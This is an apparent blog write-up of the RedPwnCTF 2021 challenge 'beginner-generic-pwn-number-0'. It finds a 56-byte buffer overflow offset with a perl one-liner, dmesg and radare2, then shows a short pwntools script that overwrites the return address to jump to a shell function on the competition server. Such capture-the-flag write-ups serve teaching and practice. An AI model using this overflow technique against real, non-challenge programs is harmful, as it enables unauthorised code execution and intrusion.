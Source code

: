 +++
author = "biplavxyz"
date = "2021-07-14"
title = "RedPwnCTF-2021 - Writeup - pwn/beginner-generic-pwn-number-0"
+++

Greetings everyone!  
This is going to be writeup about the challenge `beginner-generic-pwn-number-0` of `pwn` category from RedPwnCTF 2021.  
  
`Challenge 1: beginner-generic-pwn-number-0`  
Running the binary with sample input `test` simply exited the program with no error code, while running the binary with very long input threw `segmentation fault` error. So, the program had buffer overflow vulnerability.  
![1](/pwn1checking1.PNG)  

Then, I tried to find the number of bytes after which overflow occured. I printed a large number of 'A' character and passed it to the program, which caused program to crash with same `segmentation fault` error.  
```perl
perl -E "print 'A' x 58" | ./beginner-generic-pwn-number-0"
```
![3](/pwn1checking3.PNG)  

Then, I ran `dmesg` command to print the message buffer of kernel.
![4](/pwn1checking4.PNG)  
It can be seen that crash was caused due to the bad value of `RIP` register.  
`4141` are two extra `A` characters that buffer couldn't handle, and thus it overwrote the instruction pointer.  
As we printed out `58` `A` characters, and had two extra `A`'s, the required offset will be `58-2` which equals to `56`.  

Now, it's time analyze the binary with radare2.
I opened the binary in radare2 with command:  
`r2 beginner-generic-pwn-number-0`, and analyzed the binary with `aaaa`.  
I extracted the binary info with `iI` command.  

![2](/pwn1binaryinfo.PNG)  
As the binary didn't have canary enable, and wasn't stripped, exploiting it was easy.  
Then, I printed functions list with `afl`, and seeked to the main function with `s main`.  

![5](/pwn1r2-1.PNG)  

![6](/pwn1r2-2.PNG)

Then, I printed the disassemble code of main function with `pdf` command. 
It can be seen that there is also an address `0x004012ac` which calls shell.  
```bash
/bin/sh
```
![7](/pwn1r2-addressofshell.PNG)
As instruction pointer can be controlled , it is possible to jump to the address where shell can be executed.  

I used pwntools to craft a simple exploit and got a shell.

```python
from pwn import *

#elf = ELF('./beginner-generic-pwn-number-0')

#p = elf.process()

#print(p.recv())

p = remote("mc.ax", 31199)

payload = b"A"*56 + p64(0x004012ac)

p.sendline(payload)

p.interactive()
```  

![8](/pwnexploit1.PNG)

And there it was, I got shell, and got the flag.

Hope you learned something.  
Thanks for reading!  
> - <cite>seizetheday</cite>
